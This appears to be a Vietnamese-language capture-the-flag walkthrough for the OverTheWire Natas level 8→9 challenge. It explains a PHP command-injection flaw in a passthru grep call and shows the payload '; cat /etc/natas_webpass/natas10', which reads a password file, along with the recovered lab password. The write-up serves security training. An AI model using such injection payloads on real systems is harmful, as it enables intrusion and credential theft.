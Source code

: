 # Natas Level 8 → Level 9

Username: natas9

URL:http://natas9.natas.labs.overthewire.org

# Solution

Truy cập URL: 

![img](45)

Click View sourcecode: 

![img](46)

Nhìn vào code, có thể thấy đoạn PHP xử lý input có vấn đề bảo mật: ***passthru("grep -i $key dictionary.txt")*** thực thi trực tiếp lệnh shell mà không có bất kỳ biện pháp kiểm tra nào. Điều này dẫn đến Command Injection.

Cụ thể lệnh này sẽ search từ khóa nhập vào trong dictionary.txt, nhưng nếu nhập ***; cat /etc/natas_webpass/natas10*** thì lệnh có thể sẽ trở thành ***grep -i ; cat /etc/natas_webpass/natas10 dictionary.txt***.

Nhập ***; cat /etc/natas_webpass/natas10*** và click search: 

![img](47)

=> Password natas10: t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu